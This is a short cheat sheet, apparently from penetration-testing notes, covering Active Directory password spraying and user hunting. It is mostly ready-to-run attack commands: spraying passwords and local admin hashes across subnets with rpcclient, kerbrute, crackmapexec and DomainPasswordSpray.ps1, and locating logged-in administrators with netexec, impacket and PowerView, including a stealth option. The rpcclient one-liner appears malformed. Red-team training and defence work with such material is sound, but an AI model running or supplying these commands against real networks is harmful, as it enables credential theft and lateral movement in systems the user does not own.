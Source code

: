Spray and Pray
> Password spraying is very loud and very likely to be detected by a blue team
* Bash one-liner
  ```bash
  for u in $(cat <userlist>);do rpcclient -U "<password-to-test" -c "getusername;quit" <IP> | grep Authority; done
  ```
* Kerbrute
  ```bash
  kerbrute passwordspray -d <domain> --dc <IP> <userlist.txt> <Password_to_test>
  ```
* crackmapexec
  ```bash
  crackmapexec smb <IP> -u <userlist.txt> -p <Password_to_test> | grep +
  ```
> Consider local admin password reuse, and spray a local admin username and password across the network if you find it.
> > Even spray local admin hashes if you find them
* crackmapexec
  ```bash
  sudo crackmapexec smb --local-auth <IP>/<cidr> -u administrator -H <hash> | grep +
  ```
* [DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray) (Spraying from Windows)
  ```ps1
  Import-Module .\DomainPasswordSpray.ps1
  Invoke-DomainPasswordSpray -Password <password> -OutFile <outfile> -ErrorAction SilentlyContinue
  ```

## User Hunting

Sometimes you need to find a machine where a specific user is logged in.
You can remotely query every machines on the network to get a list of the users's sessions.

* netexec

  ```ps1
  nxc smb 10.10.10.0/24 -u Administrator -p 'P@ssw0rd' --sessions
  SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  [+] Enumerated sessions
  SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  \\10.10.10.10            User:Administrator
  ```

* Impacket Smbclient

  ```ps1
  $ impacket-smbclient Administrator@10.10.10.10
  # who
  host:  \\10.10.10.10, user: Administrator, active:     1, idle:     0
  ```

* PowerView Invoke-UserHunter

  ```ps1
  # Find computers were a Domain Admin OR a specified user has a session
  Invoke-UserHunter
  Invoke-UserHunter -GroupName "RDPUsers"
  Invoke-UserHunter -Stealth
  ```
